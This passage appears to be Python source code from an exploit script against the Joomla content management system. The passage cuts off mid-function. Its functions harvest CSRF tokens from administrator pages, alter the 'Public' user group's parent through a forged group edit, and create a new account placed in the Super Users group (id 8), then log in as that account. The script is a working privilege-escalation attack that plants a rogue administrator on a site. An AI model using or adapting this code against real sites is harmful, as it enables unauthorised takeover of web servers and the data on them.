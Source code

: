 
    def checkAdmin(url, sess):
        print("[+] Checking admin")
        url_check = url + '/administrator/index.php?option=com_users&view=users'
        resp = sess.get(url_check, verify=True)
        token = extract_token(resp)
        if not token:
            print "[-] You are not administrator!"
            sys.exit()
        return token


    def checkSuperAdmin(url, sess):
        print("[+] Checking Superadmin")
        url_check = url + '/administrator/index.php?option=com_config'
        resp = sess.get(url_check, verify=True)
        token = extract_token(resp)
        if not token:
            print "[-] You are not Super-Users!"
            sys.exit()
        return token


    def changeGroup(url, sess, token):
        print("[+] Changing group")
        newdata = {
            'jform[title]': 'Public',
            'jform[parent_id]': 100,
            'task': 'group.apply',
            token: 1
        }
        newdata['task'] = 'group.apply'
        resp = sess.post(url + "/administrator/index.php?option=com_users&layout=edit&id=1", data=newdata,
                         verify=True)
        if 'jform[parent_id]' not in resp.text:
            print('[!] Maybe failed to change group...')
            return False
        else:
            print "[+] Done!"
        return True


    def create_user(url, sess, username, password, email, token):
        newdata = {
            # Form data
            'jform[name]': username,
            'jform[username]': username,
            'jform[password]': password,
            'jform[password2]': password,
            'jform[email]': email,
            'jform[resetCount]': 0,
            'jform[sendEmail]': 0,
            'jform[block]': 0,
            'jform[requireReset]': 0,
            'jform[id]': 0,
            'jform[groups][]': 8,
            token: 1,
        }
        newdata['task'] = 'user.apply'
        url_post = url + "/administrator/index.php?option=com_users&layout=edit&id=0"
        sess.post(url_post, data=newdata, verify=True)
        sess.get(url + "/administrator/index.php?option=com_login&task=logout&" + token + "=1", verify=True)
        sess = requests.Session()
        if try_admin_login(sess, url, username, password):